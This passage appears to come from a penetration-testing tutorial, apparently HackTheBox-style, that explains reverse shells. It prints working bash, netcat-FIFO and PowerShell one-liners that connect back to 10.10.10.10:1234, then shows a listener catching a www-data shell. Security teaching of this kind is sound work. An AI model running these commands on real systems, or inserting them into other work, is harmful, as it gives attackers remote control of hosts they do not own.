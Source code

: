 Note: We are connecting to the IP in 'tun0' because we can only connect to HackTheBox boxes through the VPN connection, as they do not have internet connection, and therefore cannot connect to us over the internet using \`eth0\`. In a real pentest, you may be directly connected to the same network, or performing an external penetration test, so you may connect through the \`eth0\` adapter or similar.

#### Reverse Shell Command

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

```

```Powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

```

We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our `netcat` listener:

```shell
nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

As we can see, after we received a connection on our `netcat` listener, we were able to type our command and directly get its output back, right in our machine.

A `Reverse Shell` is handy when we want to get a quick, reliable connection to our compromised host. However, a `Reverse Shell` can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.
